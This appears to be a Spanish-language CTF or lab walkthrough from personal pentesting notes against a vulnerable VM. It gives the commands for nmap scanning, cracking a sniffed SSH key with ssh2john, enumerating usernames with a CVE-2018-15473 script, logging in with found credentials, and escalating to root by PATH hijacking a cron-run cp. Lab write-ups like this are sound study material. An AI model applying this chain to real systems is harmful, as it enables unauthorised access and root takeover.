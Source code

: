Hacemos el reconocimiento con nmap:
```bash
nmap -p- --open -sS -sC -sV --min-rate 5000 -n -vvv -Pn 192.168.0.43 -oN escaneo
```
![[Mis apuntes/ANEXOS/Pasted image 20230723111912.png]]
Y esto es lo que nos encontramos en el puerto 8000:
![[Mis apuntes/ANEXOS/Pasted image 20230723111951.png]]
Como vemos esto de escuchar, probamos en hacer sniffing con wireshark para ver qué encontramos, lo que vemos un id_rsa:
![[Mis apuntes/ANEXOS/Pasted image 20230723112416.png]]
Hacemos clic derecho sobre este texto y seleccionamos la opción as a printable text:
![[Mis apuntes/ANEXOS/Pasted image 20230723112543.png]]
Y estamos guardando parte del id_rsa:
![[Mis apuntes/ANEXOS/Pasted image 20230723112611.png]]
Y luego si vemos otro paquete, vemos el final:
![[Mis apuntes/ANEXOS/Pasted image 20230723112725.png]]
Ahora al editar el contenido, tenemos que quitar esta línea:
![[Mis apuntes/ANEXOS/Pasted image 20230723112837.png]]
Así nos debería de quedar:
![[Mis apuntes/ANEXOS/Pasted image 20230723112904.png]]
Vamos a crackear el hash:
```bash
ssh2john id_rsa > hash
```
![[Mis apuntes/ANEXOS/Pasted image 20230929083853.png]]
Tenemos una contraseña pero no tenemos el usuario, por lo que podemos fijarnos en el reporte de nmap y descubrir cual es el usuario ssh ya que es una versión algo antigua:
![[Mis apuntes/ANEXOS/Pasted image 20230929084023.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230929084041.png]]
Y nos bajamos un diccionario con nombres de usuario:
```bash
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/Names/names.txt
```
Y lanzamos el ataque para ver si encontramos algún usuario válido:
![[Mis apuntes/ANEXOS/Pasted image 20230929084413.png]]
```bash
python3 CVE-2018-15473.py -p 22 192.168.0.82 -w names.txt
```
Y vemos que el usuario abel es usuario válido:
![[Mis apuntes/ANEXOS/Pasted image 20230929084501.png]]
```bash
abel:idontknow
```
Iniciamos sesión por ssh con estas credenciales usando este id_rsa:
![[Mis apuntes/ANEXOS/Pasted image 20230929084731.png]]
Una vez dentro, si ejecutamos el comando crontab -l vemos que hay un comando que se ejecuta de forma automatizada:
![[Mis apuntes/ANEXOS/Pasted image 20230929085226.png]]
Y como vemos que se está ejecutando el comando cp como root, podemos probar en explotar un path hijacking abusando del comando cp:
[[8 - Manipular el PATH - Path Hijacking]]
```bash
nano cp
chmod 777 cp
export PATH=.:$PATH
bash -p
```
Por lo que creamos un archivo llamado cp con el siguiente contenido para cambiarle el permiso a la bash:
![[Mis apuntes/ANEXOS/Pasted image 20230929085600.png]]
